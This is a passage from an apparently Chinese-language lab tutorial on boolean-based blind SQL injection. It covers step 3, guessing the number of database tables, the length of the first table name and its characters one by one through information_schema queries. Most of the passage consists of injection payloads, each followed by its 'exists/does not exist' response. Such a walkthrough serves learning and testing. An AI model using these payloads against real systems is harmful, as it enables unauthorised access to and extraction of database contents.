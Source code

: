 

### **3.猜解数据库中的表名**



首先猜解数据库中表的数量：



> 1’ and (select count (table\_name) from information\_schema.tables where table\_schema=database())=1 # 显示不存在

> 

> 1’ and (select count (table\_name) from information\_schema.tables where table\_schema=database() )=2 # 显示存在



说明数据库中共有两个表。



接着挨个猜解表名：



> 1’ and length(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1))=1 # 显示不存在

> 

> 1’ and length(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1))=2 # 显示不存在

> 

> …

> 

> 1’ and length(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1))=9 # 显示存在



说明第一个表名长度为9。



> 1’ and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))>97 # 显示存在

> 

> 1’ and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))<122 # 显示存在

> 

> 1’ and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))<109 # 显示存在

> 

> 1’ and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))<103 # 显示不存在
